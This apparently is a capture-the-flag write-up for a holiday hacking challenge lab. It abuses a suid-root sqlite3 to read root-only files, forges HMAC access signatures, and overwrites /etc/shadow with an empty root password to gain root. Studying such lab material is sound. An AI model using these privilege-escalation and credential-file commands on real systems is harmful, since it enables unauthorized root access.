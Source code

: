 
# Objective 7: Hardware Hacking 101 Part 2

**Difficultree: 🎄**  
**Location: The Front Yard**

The objective is to enable badge card #42 for access in the "Santa's Little Helpers" tool.

## Easy 🥈
For this mode, a hint is provided to look into the history of the shell.
In fact, in the history this command is captured:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```

So using the following command, the objective can be cleared for the easy mode:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```
**Achievement: [Silver] Hardware Hacking 101 Part 2**

### alternative part 2/easy
Using the HMAC secret key obtained below along with [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%27873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) the HMAC can be calculated and the database updated directly:
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='e96c7dc0f25ebcbc45c9c077d4dc44adb6e4c9cb25d3cc8f88557d9b40e7dbaf' where id=42;
```
This clears the objective once the validation is triggered using `slh --view-card 42`.

## Hard 🥇
For the hard part, the process `/root/check_hmac`is checking every 5 seconds the contents of the database.

A lot of investigation was performed and - presumably - it was not solved in the intended way.

All access card information along with the tool config is stored in the sqlite3 file "access_cards". The file is writable only by `root`, but the "slh" tool and "sqlite3" are suid `root`.

Database schema and the data for card #42 look like this:
```
sqlite> .open access_cards
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );

sqlite> select * from config;     
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0

sqlite> select * from access_cards where id=42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
Interestingly, when creating (using CyberChef as mentioned in the hints) the HMAC with SHA256 and the key from `hmac_secret` for `access` concatenated with the UUID of card #42
```
0c06018b6-5e80-4395-ab71-ae5124560189
```
it does not result in the value captured in the database table.   
Table:   
```
ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) (using the key as UTF8 string):   
```
34f4ccd2fda66ac2f3ed2136ce6cddecac92a4437fd2e0fc4ebaad61bc5893eb
```

So it seems, that the captured `hmac_secret` is not (directly) the key being used to calculate the HMAC.

Scanning the system shows, that apart from `slh`and `sqlite3` also `runtoanswer`is suid root.
For the hard mode, `runtoanswer`reads its config from `/etc/runtoanswer/hard.yaml`, which is unfortunately only accessible by `root`. The tool asks for the HMAC key being used to calculate the signatures.

But - it is possible to read the file with the help of `sqlite3`, as it is suid `root`:
```
sqlite> CREATE TABLE yaml(data BLOB);
sqlite> INSERT INTO yaml(data) VALUES(readfile('/etc/runtoanswer/hard.yaml'));
sqlite> select * from yaml;
# This is the config file for runtoanswer, where you can set up your challenge!
---
title: "Hard"
# This is the completionSecret from the Content sheet - don't tell the user this!
key: a08b747109942489cd74fc89e66d7c4c

Action: "hard"

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34"
```
The validation using Cyberchef confirms, that this is the right key: https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34'%7D,'SHA256')&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
 
 So starting `runtoanswer` and providing it the answer `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` 
 clears the objective.   
**The `runtoanswer`binary along with the config files in `/etc/runtoanswer` was removed from the system in the meantime.**

**Achievement: [Gold] Hardware Hacking 101 Part 2**

### alternative part 2/hard
Analyzing the `check_hmac` tool (provided below) shows, that it checks for the signature `135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096`.
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```
The objective is cleared regardless of the `access`value, because `check_hmac` does only look at the signature using this statement:
`SELECT sig FROM access_cards WHERE id = 42`

---
### HMAC secrets
The HMAC secret found in the database is the SHA256 hash of "pizza".    The HMAC secret which has to be used to create a valid signature is the SHA256 hash of "cheese".

### SLH_PASSCODE 
The expected passcode can be supplied in the environment variable `SLH_PASSCODE`:   
![slh passcode in ENV](slh-env.png)

### hard coded credentials
The passcode `CandyCaneCrunch77`found in the shell history is hard coded in the slh binary. The `admin_password` from the database is not used.   
Also the HMAC secret `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` is hard coded in the binary and not read from the database.

### binaries
The [slh](slh) and the [check_hmac](check_hmac) binaries were exfiltrated from the system and can be found in this repo for further analysis.   
This was performed using `sqlite3` as described for the retrieval of `/etc/runtoanswer/hard.yaml`. The only caveat is - as we are talking about binary data here - that the `readfile()`has to be encapsulated in `hex()`.   
Once retrieved, the files can be unpacked using `pyi-archive-viewer`. They both contain a `.pyc`file (`slh`resp. `check_hmac`). At least the strings from these `.pyc`files are readable and can be used for educated guesses.   
Furthermore, as the binaries are now available locally, they can be executed using debugging tools.

### full system takeover
Using the suid root tool `sqlite3` it is possible to overwrite `/etc/shadow` with own data and with that the takeover of the system:
```
slh@slhconsole\> sqlite3
sqlite> CREATE TABLE shadow(data BLOB);
sqlite> INSERT INTO shadow(data) VALUES('root::20038:0:99999:7:::');
sqlite> SELECT writefile('/etc/shadow',data) FROM shadow;
sqlite> .exit
slh@slhconsole\> su -
root@6f03030c64e5:~# id
uid=0(root) gid=0(root) groups=0(root)

```

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQwNzc0MDU3NiwxMzU3MjIwNjAzLC02MT
E3MzU1NjYsODUxNjQxMTAyLDEyODE5MzgzNzcsLTE5MTc3NTMx
NDEsMTEwNTA2ODAzMCwtNTQ0MTU2OTUwLDQ3MTYwMTk2MywxNz
E4ODQyODQyLC01Mjg5MzA1NTUsMTA2NDA1OTg5MiwtMTEzODM5
ODA0LDEyMTY5NDQ5NzAsLTE1MjgzMTY3OTAsNDc2MTM1MTYyLD
E1ODk0MjMwMTUsMTcyNzA2OTMzNiwtMTg3NzIzMzY1NSwtMTk2
OTMxNzQ1OV19
-->